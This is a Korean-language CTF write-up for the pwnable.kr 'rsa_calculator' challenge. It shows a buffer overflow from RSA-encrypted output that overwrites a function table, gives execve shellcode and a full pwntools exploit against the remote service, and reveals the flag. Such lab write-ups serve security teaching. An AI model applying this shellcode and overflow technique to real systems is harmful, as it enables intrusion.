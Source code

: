 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-21-11-17-35.png)


# **Write-Up**

파일 정보는 다음과 같다.

```sh
root@ubuntu:~# checksec rsa_calculator
[*] '/root/rsa_calculator'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

- Buggy RSA Calculator -라는 문자열이 출력 후 64byte의 func객체를 초기화과정을 수행한다.

||setkey|RSA_encrypt|RSA_decrypt|help|myexit|"pwnable."|"krisbest"|_system|
|:--:|:--:|:--:|:--:|:--:|:--:|:--:|:--:|:--:|
|size (byte)|8|8|8|8|8|8|8|8|

먼저 set key pair를 해야하는데 적당히 작은 수를 이용하여 p, q, e, d값을 구해서 넣어보자.

```py
from gmpy2 import invert
from Cryptodome.Util.number import getPrime

p   = getPrime(8)
q   = getPrime(8)
N   = p*q
phi = (p-1)*(q-1)
e   = 65537
d   = invert(e, phi)
print(p, q, e, d) # 223 163 65537 19673
```

p와 q는 int16이기 때문에 32767(0x7FFF)이하의 값을 입력해야 한다.

```sh
-SET RSA KEY-
p : 32768
q : 32768
p, q, set to -32768, -32768
```

필요 값들을 모두 입력하면 key set ok가 출력된 후 pubkey(0x6020c0)의 값과 prikey(0x602960)의 값을 출력한다.

```sh
key set ok
pubkey(e,n) : (65537(00010001), 36349(00008dfd))
prikey(d,n) : (19673(00004cd9), 36349(00008dfd))
```

이후 encrypt를 선택하면 데이터를 입력하라고 하고, fread함수를 통해 1글자씩 받아들인다.

![](images/2022-01-21-14-37-40.png)

fread를 통해 스택에 입력 받은 데이터를 g_pbuf(0x602560)에 다시 복사한다.

![](images/2022-01-21-14-49-48.png)

그리고 암호화를 진행하는데, g_ebuf(0x6020e0)에 저장된다. 하지만 func객체는 0x602500에 위치이고 차이는 1,056byte이다.

암호화가 진행되면서 데이터 길이가 커지기(0x61 => 0x5245)때문에 func객체를 오버라이트할 수 있다.

![](images/2022-01-21-14-58-40.png)

NX bit가 disabled이기 때문에 shell code를 넣자. exploit 절차는 다음과 같다.

    1. 데이터를 입력하는 곳(g_pbuf = 0x602560)에 shell code 삽입
        \x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05
    2. 암호화된 데이터 길이가 1,060byte일때, setkey함수를 덮을 수 있기 때문에 (1,060/4) - len(shellcode) - 1 = 241byte의 dummy가 필요
        'A' * 241
    3. 마지막 payload byte의 암호화된 값이 0x602560(= 6,301,024)이 되어야 하는 byte를 구함
        3.1. m^e mod N = 6,301,024 (m^e를 N으로 나누었을 때의 나머지)
        3.2. 몫 * N + 6,301,024 = m^e
        3.3. m을 'A'인 65로 가정하고, e를 4로 가정하였을 때, 몫 * N = 17,850,625(65^4) - 6,301,024 = 11,549,601
        3.4. 몫을 1이라 가정하였을 때, N = 27*7*53*1153
        3.5. 소수에 대한 검증이 없으므로 p = 27*7*53 = 10,017, q = 1,153
        3.6. d = N으로 하였을 때, wrong parameter안뜨는 점을 이용
    4. set key pair -> 인자 전달 -> encrypt -> payload 전달 -> set key pair -> cat flag
> [인수 분해](http://www.factordb.com/index.php?query=11549601)

FLAG를 획득하자.

```py
from pwn import *

p   = 10017
q   = 1153
e   = 4
d   = p*q
shell_code = b'\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05'
payload = shell_code + b'A' * 242

r = remote('pwnable.kr', 9012)
r.recvuntil('> ')
r.sendline('1')

r.recvuntil('p : ')
r.sendline(str(p))
r.recvuntil('q : ')
r.sendline(str(q))
r.recvuntil('e : ')
r.sendline(str(e))
r.recvuntil('d : ')
r.sendline(str(d))

r.recvuntil('> ')
r.sendline('2')
r.recvuntil("how long is your data?(max=1024) : ")
r.sendline("265")

r.sendline(payload)

r.recvuntil('> ')
r.sendline('1')

r.sendline('cat flag')
print(r.recvline().decode())
```


# **FLAG**

**what a stupid buggy rsa calculator! :(**